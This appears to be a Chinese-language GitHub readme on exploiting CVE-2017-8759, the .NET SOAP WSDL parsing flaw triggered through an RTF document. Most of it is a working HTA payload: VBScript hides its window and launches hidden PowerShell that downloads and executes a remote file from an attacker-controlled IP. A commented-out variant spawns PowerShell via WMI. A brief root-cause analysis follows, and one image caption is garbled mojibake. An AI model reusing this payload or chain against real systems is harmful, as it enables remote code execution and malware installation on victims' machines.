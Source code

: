 RTF文档 执行后 ，远程从SOAP Moniker 从远程服务器拉取一个SOAP XML 文件， 指定.net库的 SOAP WSDL模块解析，从而触发漏洞

cmd.jpg

```html
<html>
<head>
<script language="VBScript">
Sub window_onload
    window.resizeTo 0,0
    window.MoveTo -100,-100
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WScript.Shell")
    Locator.Run"powershell.exe -nop -w hidden -c ""IEX (new-object net.webclient).downloadstring('http://192.168.211.149:80/artifact.exe')""",0,FALSE
    window.close()
end sub
</script>
<!--

<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("powershell.exe -nop -w hidden calc.exe", null, objConfig, intProcessID)
	window.close()
end sub
</script>
-->
</head>
</html>
```

通过再次请求远程文件，来进行 pwershell 操作 进行  payload  执行  来执行远程木马payload (会有提权问题)

借鉴图片整理利用思路

![ä¸ä¸ªæ¢è¡ç¬¦å¼åçå¥¥æ¯å¡0dayæ¼æ´CVE-2017-8759éç°ï¼ææ°çOfficeé"çº§å¨èæ"å"é¢è­¦](https://image.3001.net/images/20170913/15053018019701.png!small)



#### 漏洞分析

在.net库中的SOAP WSDL 解析模块[IsValidUrl](http://referencesource.microsoft.com/System.Runtime.Remoting/R/1bd2c5d8fcea7a6b.html)函数没有正确处理包含回车换行符的情况，导致调用者函数[PrintClientProxy](http://referencesource.microsoft.com/System.Runtime.Remoting/R/912eac956e45baaf.html)存在代码注入执行漏洞。

